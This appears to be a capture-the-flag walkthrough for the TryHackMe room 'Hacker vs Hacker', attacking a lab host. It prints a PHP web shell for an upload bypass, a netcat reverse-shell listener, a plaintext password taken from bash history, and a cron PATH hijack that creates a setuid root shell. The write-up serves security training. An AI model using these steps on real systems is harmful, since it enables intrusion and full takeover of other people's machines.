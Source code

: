 # [Hacker vs Hacker v1.1](https://tryhackme.com/r/room/hackervshacker)

## Enumeration

We star enumarating the open port with **nmap**.

```shell
$sudo nmap -p- --open -n -Pn -sS --min-rate 2000 10.10.249.183
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 18:00 -05
Nmap scan report for 10.10.249.183
Host is up (0.69s latency).
Not shown: 55405 closed tcp ports (reset), 10128 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 51.09 seconds
```

We review the website in the port 80.

![home](./images/home.png)

## File Upload Vulnerability

We can see that we have the option to upload a file, we upload a text file created with `echo "test" > test.txt` to test the upload.

![upload-txt](./images/upload-txt.png)

When loading the file we are redirected to http://10.10.249.183/upload.php with the following message *Hacked! If you dont want me to upload my shell, do better at filtering!*. Let's review the source code.

## Command Injection

![upload-source](./images/upload-source.png)

Apparently, for the upload, they only verify it using the *strops* function, which indicates the position. Then, the file will be uploaded if has a *.pdf* in the name.

We will upload the following file.

```shell
$ cat shell.pdf.php 
<?php
    $cmd = $_GET['cmd'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
?>
```

We should find where the files are saved, let's use *gobuster*.

```shell
$ gobuster dir -u http://10.10.249.183/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.249.183/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.249.183/css/]
/cvs                  (Status: 301) [Size: 312] [--> http://10.10.249.183/cvs/]
/dist                 (Status: 301) [Size: 313] [--> http://10.10.249.183/dist/]
/images               (Status: 301) [Size: 315] [--> http://10.10.249.183/images/]
/index.html           (Status: 200) [Size: 3413]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We find the cvs directory, if we enter it tells us *Directory listing disabled*, but the status code is 200. Checking with the exact name and using the parameter we see that the command injections works.

![command-injection](./images/command-injection.png)

We use the reverse shell *PHP exec* from https://www.revshells.com/ url encoded.

![revshell](./images/revshell.png)

We got the reverse shell.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.249.183] 51592
whoami
www-data
```

Reviewing the users who hace a shell we see:

```shell
www-data@b2r:/var/www/html/cvs$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
lachlan:x:1001:1001::/home/lachlan:/bin/sh
```

## User Privilege Escalation

Before becoming the root user we should switch to the user lachlan, in this case we achieve it by reviewing its history.

```shell
www-data@b2r:/var/www/html/cvs$ cd /home/lachlan
www-data@b2r:/home/lachlan$ ls -al
total 36
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 .
drwxr-xr-x 3 root    root    4096 May  5  2022 ..
-rw-r--r-- 1 lachlan lachlan  168 May  5  2022 .bash_history
-rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May  5  2022 .cache
-rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May  5  2022 bin
-rw-r--r-- 1 lachlan lachlan   38 May  5  2022 user.txt
www-data@b2r:/home/lachlan$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
www-data@b2r:/home/lachlan$ su lachlan
Password: thisistheway123
lachlan@b2r:~$ whoami
lachlan@b2r:~$ lachlan
```

To escalate privileges we achive it by reviewing the crontabs.

```shell
lachlan@b2r:~$ ls -al /etc | grep cron
drwxr-xr-x   2 root root       4096 May  5  2022 cron.d
drwxr-xr-x   2 root root       4096 May  5  2022 cron.daily
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.hourly
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.monthly
-rw-r--r--   1 root root       1042 Feb 13  2020 crontab
drwxr-xr-x   2 root root       4096 Feb 23  2022 cron.weekly
lachlan@b2r:~$ ls -al /etc/cron.d
total 28
drwxr-xr-x   2 root root 4096 May  5  2022 .
drwxr-xr-x 102 root root 4096 May  5  2022 ..
-rw-r--r--   1 root root  201 Feb 14  2020 e2scrub_all
-rw-r--r--   1 root root  814 May  5  2022 persistence
-rw-r--r--   1 root root  712 Mar 27  2020 php
-rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
-rw-r--r--   1 root root  191 Feb 23  2022 popularity-contest
lachlan@b2r:~$ cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

In the file */etc/cron.d/persistence* we can see that the root user excecutes many statements, but the interesting thing is the PATH they declare, which has the directory */home/lochlan/bin* which we can include scripts.

```shell
bash-5.0$ cd /home/lachlan/bin
bash-5.0$ echo "#!/bin/bash" > pkill
bash-5.0$ echo "cp /bin/bash /bin/pwned" >> pkill
bash-5.0$ echo "chmod u+s /bin/pwned" >> pkill
bash-5.0$ cat pkill
#!/bin/bash
cp /bin/bash /bin/pwned
chmod u+s /bin/pwned
bash-5.0$ chmod +x pkill
bash-5.0$ ls -al /bin/pwned
-rwsr-xr-x 1 root root 1183448 Apr 14 00:26 /bin/pwned
bash-5.0$ /bin/pwned -p
bash-5.0$ whoami
root
```
The root flag is located in your directory.
